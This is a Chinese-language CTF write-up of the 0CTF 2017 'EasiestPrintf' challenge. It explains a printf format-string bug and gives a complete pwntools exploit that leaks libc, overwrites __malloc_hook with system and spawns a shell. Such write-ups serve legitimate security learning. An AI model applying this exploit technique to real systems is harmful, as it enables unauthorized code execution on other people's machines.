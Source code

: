 ```yaml
---
title: 0CTF 2017 Easiestprintf
date: 2018-04-23 12:21:45
tags: pwn
layout: post
---
```

0CTF 2017 Easiestprintf
<!--more-->

# 0ctf Pwn Easyprintf
[题目以及exploit][1]

## 0x01 分析
除了PIE没开其他都开了
比较明显的printf格式化字符串漏洞
但是printf后面紧跟着exit（）
如果要hajack exit的got 会因为FULL RELRO而不能写
如果要改返回地址发现前面随机了站地址
then.. 我去看了一下writeup
发现了新姿势
通过[__malloc_hook][2] 或者 [__free_hook][3] 来getshell

## 0x02 利用
思路：
0.利用printf输出长度超过65536来使其调用__malloc_hook
1.在这之前将__malloc_hook的got改写成system
2.在这之前将参数改写为sh的地址sh可以写进bss 因为参数是长度(有细微差距 可以gdb调试 然后改成正确的 __malloc_hook是malloc()的第一个call)
3.检查payload中是否有0x0a

## 0x03 Exploit
```python
from pwn import *
#context.log_level="debug"

def exp():
	p=process("./EasiestPrintf")
	libc=ELF("/lib/i386-linux-gnu/libc.so.6")
	p.readuntil("read:\n")
	p.sendline("134520796")
	data=p.readline()
	data=int(data[:-1],16)
	libc.address=data-libc.symbols['puts']
	sh=libc.search("/bin/sh").next()
	p.readuntil("Bye\n")
	writes = {
		0x0804a100+0x4c:u32("/bin"),
		0x804a104+0x4c:u32("/sh;"),
	        libc.symbols['__malloc_hook']:libc.symbols['system']}
	width = 0x804a100+0x4c-0x20
	sh=libc.search("/bin/sh").next()
	#this sh is toooooo large and printf will not malloc such large chunk#
	gdb.attach(p,'''b * 0x804881c''')
	payload = fmtstr_payload( offset = 7,writes = writes,numbwritten = 0,write_size = 'short') + '%{}c'.format(width)
	p.sendline(payload)
	p.interactive()
	p.close()

exp()
```
## 0x04 总结
1.新姿势 fmtstr中利用 __malloc_hook 和 __free_hook 
2.如果直接用libc中的sh发现需要malloc的chunk过大导致前面某些检查出现问题不会跑malloc
3.如果是2.23的libc,one_gadget并没有用
4.在printf后面直接是exit又是fullrelro所以mallochook是个好选择




[1]: https://github.com/n132/banana/tree/master/Pwn/4-22
[2]: https://blog.betamao.me/2018/03/29/0ctf-2017-easiestprintf-150/#more
[3]: https://poning.me/2017/03/23/EasiestPrintf/